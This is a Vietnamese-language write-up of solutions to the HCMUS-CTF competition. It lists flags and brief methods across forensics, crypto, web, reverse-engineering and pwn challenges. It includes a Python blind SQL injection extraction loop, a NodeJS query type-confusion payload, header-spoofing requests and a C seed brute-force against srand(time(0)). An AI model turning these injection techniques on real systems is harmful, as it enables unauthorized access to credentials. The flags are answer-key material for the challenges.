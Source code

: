 # HCMUS-CTF
## Forensics
### Docker Babe
- <code> docker pull pakkunandy/docker-babe </code>
- <code> docker run -t -i pakkunandy/docker-babe bash</code>
- <code> cat flag.txt </code>
- Flag: HCMUS-CTF{Docker_Is_an_essential_tool_You_have_to_learn_FORRRRSURRREEEE}

## Crypto
### Xor
- Xor cipher với key "HCMUS-CTF", ta thấy key = "FIT"
- Xor cipher với key "FIT"
- Flag: HCMUS-CTF{XoR_1s_a_KinD_oF_Crypto}
### The Ripper
- Dùng John với 2 file được cho, ta được username và password
- Flag: HCMUS-CTF{Use_John_the_ripper_to_crack_password_is_fun!!!HAHAHA}

## Web
### Secret Agent
- Thêm header: "User-Agent: eevee" vào request
- Flag: HCMUS-CTF{+he_4g3nt_Izzz_eevoolution0123456}
### Secret Dir
- Tìm được http://159.65.13.76:1338/
- Gửi request đến /flagpassword với header: "Referer: http://159.65.13.76:1338/flagflagflagflag", ta được username và password để vào /flagflagflagflag.
- Flag: HCMUS-CTF{1t_1zzzz_Crucial_t0_kn0W_Headers_and_R0b0tz}
### Blind SQL
- Blind SQL cơ bản
```
  for i in range(0, 50):
	print(i)
	for char in mchar:
		payload = "admin\' and password LIKE BINARY \'" + flag + char + "%"
		data = {'username': payload}
		x = requests.post(url, data)
		if "exists" in x.text:
			flag = flag + char
			break
print(flag)
```
- Flag: HCMUS-CTF{Sh0uld_I_Us3_NoSQL_N3xt_T1m3_0x3f3f3f}

### Funny Express
- Payload: ?query[toString]=0
- Flag: HCMUS-CTF{DidntKn0wN0d3JSW0uld_be_sooo00z_Funny}

## RE
### Patient Revenge Revenge
- Patch file exe để vô hiệu hóa timer :D
- Flag: HCMUS-CTF{d0_y0u_kn0w_ARc_fourrrrrrrrrrrr}
### Z3
- Dùng IDA decompile chương trình, sau đó copy hàm checkme vào đưa cho z3-solver
- Flag: HCMUS-CTF{H4v3_y0u_ev3r_he4rd_0f_z3}
### Lucky mine
- Dùng cnSpy debug chương trình, đặt breakpoint ở hàm Init_Mine_Field(), ta tìm ra được các vị trí không phải bom
- Flag: HCMUS-CTF{C_SHARPez}

## Pwn
### Secret
- Hàm strncmp(a, b, n) chỉ so sánh n ký tự đầu tiên của chuỗi a, b
- Payload: HCMUS-CTF
- Flag: HCMUS-CTF{strncmp_is_so_fun}
### Store
- srand(time(0)) lấy seed là thời gian hiện tại
```
	time_t cur = time(0);
	for(int i = 0; i < 1000000; i++)
	{
		srand(cur - i);
		for(int j = 0; j < 3; j++)
		{	
			if(rand() % 123456 != price[j])
			{
				break;
			}
			if(j == 2)
			{
				printf("Next number %d\n", rand() % 123456);
				exit(0);
			}
		}
	}
```

